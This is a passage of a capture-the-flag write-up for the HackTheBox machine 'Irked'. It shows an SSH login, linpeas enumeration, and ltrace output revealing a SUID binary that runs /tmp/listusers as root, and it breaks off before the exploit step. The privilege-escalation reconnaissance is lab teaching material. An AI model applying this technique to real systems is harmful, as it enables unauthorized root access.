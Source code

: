 ```
[root@kali exploits ]$ ssh $TARGET -l djmardov
djmardov@10.10.10.117's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3

djmardov@irked:~$
```
And now we owned user.

## Root
After we login as djmardov, as usual we can run ```linpeas.sh```.  
As we can see there is au uncommon SUID file ```viewuser```.
```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms                 
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found                                           
[... SNIP ...]
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary)
```
Let's try to run viewsuser and see what this is for.  
```
djmardov@irked:~$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 17 03:42 (:0)
djmardov pts/1        Dec 17 17:19 (10.10.14.18)
sh: 1: /tmp/listusers: not found
```
Seems like this file is executing via sh ```/tmp/listusers```.  
Since ltrace is not installed on the box, let's download this using b64 endode and then decode to generate the binary.  
Now, let's run ltrace:
```
__libc_start_main(0x565f857d, 1, 0xfff469c4, 0x565f8600 <unfinished ...>
puts("This application is being devleo"...This application is being devleoped to set and test user permissions
)                                                                                                        = 69
puts("It is still being actively devel"...It is still being actively developed
)                                                                                                        = 37
system("who"root     tty7         2021-12-17 09:40 (:0)
root     pts/1        2021-12-17 23:24 (tmux(4033).%12)
root     pts/2        2021-12-17 23:12 (tmux(4033).%10)
root     pts/3        2021-12-17 23:20 (tmux(4033).%11)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
setuid(0)                                                                                                                                          = 0
system("/tmp/listusers"sh: 1: /tmp/listusers: not found
 <no return ...>
--- SIGCHLD (Child exited) ---
```